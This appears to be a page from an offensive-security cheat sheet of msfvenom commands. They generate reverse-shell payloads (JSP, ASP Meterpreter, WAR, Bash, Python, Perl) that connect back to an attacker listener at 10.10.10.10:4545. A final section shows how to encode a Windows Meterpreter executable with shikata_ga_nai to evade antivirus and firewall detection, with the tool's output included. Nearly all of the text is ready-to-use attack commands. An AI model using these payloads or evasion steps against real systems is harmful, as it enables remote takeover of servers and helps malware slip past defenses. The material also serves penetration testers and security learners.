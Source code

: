 ```
$msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f raw > shell.jsp
```

# **ASP Meterpreter Reverse TCP**

```
$msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f asp > shell.asp
```

# **WAR Payload Shells**

```
$msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f war > shell.war
```

# **Scripting Payloads**

# **Bash Unix Reverse Shell**

```
$msfvenom -p cmd/unix/reverse_bash LHOST=10.10.10.10 LPORT=4545 -f raw > shell.sh
```

# **Python Reverse Shell**

```
$msfvenom -p cmd/unix/reverse_python LHOST=10.10.10.10 LPORT=4545 -f raw > shell.py
```

# **Perl Unix Reverse shell**

```
$msfvenom -p cmd/unix/reverse_perl LHOST=10.10.10.10 LPORT=4545 -f raw > shell.pl
```

# **WAF and Antivirus Detection(AV) Bypass using MSFVenom Encoders**

The normal MSFVenom generated payloads can be easily detectable by most of the antivirus software or firewalls. MSFVenom provides one functionality called, **Encoders** which can be used to bypass some of them Firewalls and Antivirus software. You can take advantage of some of them for **AV bypass** and **WAF bypass**. Use **-e** flag to use the same with any encoder name. Encoder types are also described in the below section.

```
$msfvenom --platform Windows -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=10.10.10.10 LPORT=4545 -f exe > encoded_shell.exe

[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai succeeded with size 449 (iteration=3)
x86/shikata_ga_nai succeeded with size 476 (iteration=4)
x86/shikata_ga_nai chosen with final size 476
Payload size: 476 bytes
Final size of exe file: 73802 bytes

```